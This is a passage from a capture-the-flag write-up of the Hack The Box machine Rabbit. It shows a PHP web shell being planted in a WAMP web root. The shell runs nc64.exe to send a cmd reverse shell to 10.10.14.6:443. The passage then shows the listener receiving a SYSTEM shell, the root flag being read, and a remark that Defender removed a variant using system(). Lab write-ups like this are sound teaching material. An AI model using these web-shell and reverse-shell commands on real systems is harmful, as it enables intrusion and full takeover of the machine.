     
    
    PS C:\wamp64\www> cmd /c "echo ^<?php shell_exec("C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?^> "
    <?php shell_exec(" C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?> 
    

I’ll use the `^` to escape the `<` and `>` as shown
[here](https://www.robvanderwoude.com/escapechars.php), same as I did in
[Fighter](/2022/04/25/htb-fighter.html#reverse-shell-option-2). I had to play
a bit with the `"` to get them to work, but that did. I’ll also have to escape
the `\` with a second `\`.

I’ll write that to a file:

    
    
    PS C:\wamp64\www> cmd /c "echo ^<?php shell_exec("C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?^> > 0xdf.php"
    

It is worth noting that my first attempt at PHP execution used `system`
instead of `shell_exec`, but the shell keep getting deleted by Defender.

#### Shell

With `nc` listening on 443, I’ll visit `http://10.10.10.71:8080/0xdf.php` in
Firefox. It hangs, but there’s a connection at `nc`:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.71 22005
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\wamp64\www>whoami
    nt authority\system
    

And I can read `root.txt`:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    0b2ded66************************
    

## Beyond Root

### Complain User Password Reset

It’s not important to solving Rabbit, but Complain Management System’s
password reset is very broken.

Without logging in, visiting `forget-password.php` asks for your username and
email:

![image-20220425164922703](https://0xdfimages.gitlab.io/img/image-20220425164922703.png)
